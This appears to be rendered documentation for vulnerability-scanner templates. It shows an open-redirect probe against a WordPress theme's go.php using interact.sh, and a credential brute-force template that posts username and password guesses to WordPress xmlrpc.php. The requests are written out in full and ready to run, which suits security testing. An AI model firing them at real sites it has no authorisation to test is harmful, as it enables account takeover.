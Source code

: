 ### URL

- {{BaseURL}}/wp-content/themes/Grimag/go.php?https://interact.sh

### Matchers

**Type - regex**

- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh._$
- part - header

---

# Wordpress XMLRPC.php username and password Bruteforcer

## Description

- This template bruteforces username and passwords through xmlrpc.php being available.
- severity - high
- tags - wordpress,php,xmlrpc,fuzz

## Requests

### Step - 1

```
POST /xmlrpc.php HTTP/1.1
Host: {{Hostname}}
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
 <methodCall>
   <methodName>wp.getUsersBlogs</methodName>
   <params>
     <param>
       <value>{{username}}</value>
     </param>
       <param>
     <value>{{password}}</value>
       </param>
   </params>
 </methodCall>

```

### Matchers

**Type - status**

- status
  1. 200
